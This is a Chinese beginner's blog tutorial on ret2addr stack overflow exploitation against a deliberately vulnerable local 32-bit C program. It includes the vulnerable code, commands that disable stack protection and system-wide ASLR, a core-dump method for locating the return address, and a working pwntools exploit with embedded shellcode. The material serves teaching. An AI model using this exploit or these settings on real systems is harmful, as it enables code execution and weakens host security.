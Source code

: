 ```yaml
---
title: Pwn 入门（ret2addr)
permalink: /pwn-ret2addr/
date: 2019-09-15 11:20:45
tags: 
 - Pwn
 - 网安
categories: 基础
---
```


最简单的 pwn 就是使用栈溢出返回到一个地址去执行shellcode，虽然见不到这种攻击方法，但是，对栈结构的理解还是很有帮助的。

<!-- more -->

ret2addr（return-to-address，**返回到确定地址执行**的攻击方法）

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

没有栈不可执行（NX），也没有地址随机化（ASLR）。这时候就直接使用地址覆盖就好。

## 0. 准备一下

首先要创建一个文件，`vuln.c`

```c
# include <stdio.h>

void func() {
    char buf[0x50];
    read(0, buf, 0x100);
    write(1, buf, 0x100);
}

int main() {
    func();
    return 0;
}
```

安装 32 位编译环境

```bash
apt-get install gcc-multilib g++-multilib
```

编译并关闭地址随机化

```bash
# 编译命令 
gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack  -no-pie

# 关闭地址随机化功能
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 1. 确定溢出位置

- 先在IDA里估计下缓存区大小，然后使用 `pattern create length`生成一段随机不重复的字符串。
- 然后在 gdb 中 r指令 运行程序，，由于栈溢出，导致原本的函数的返回地址无法执行。
- 使用 pattern offset addr 确定程序的返回地址，也就是应该输入的无效字符串的长度。

## 2. 确定返回地址

- 打开 core 转储功能 

  ```bash
  ulimit -c unlimited
  sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
  ```

- 运行程序，输入 上面获得的长度的无效字符串 + 4个任意字符（ESP）+ 4个任意字符（EIP）。此时程序会报错，然后把信息转储至 core 文件。

- 用 `gdb 程序名称 core`打开 core 文件。

- 此时ESP指向了所希望的 shellcode 的位置，也就是我们的自定义代码的位置。

  ```shell
  gdb-peda$ print $esp
  0xffffcf80
  ```

- 此时EIP应该填充为 shellcode 的地址，即此时ESP的值。

## 3. 编写利用脚本

shellcode 可以在 [shell-strom](http://shell-storm.org/shellcode/) 这里找到很多，也可以自己手写。

```python
from pwn import *
#context.log_level='debug'
p=process("./vuln") # 此处是程序的路径
payload='a'*92	# 此处的92是第一步所确定的无效字符串的长度
payload+=p32(0xffffcf80) #此处的地址是第二步时获得的 shellcode 地址
#shellcode脚本
payload+="\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
payload+="\x6c\x0e\xff\x01\x80\xe9\x01\x75"
payload+="\xf6\xeb\x05\xe8\xea\xff\xff\xff"
payload+="\x32\xc1\x51\x69\x30\x30\x74\x69"
payload+="\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
payload+="\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

p.send(payload)
p.interactive()#返回交互式界面
```

## 4. pwn

- 执行`python vuln.py`（即第三步的脚本文件）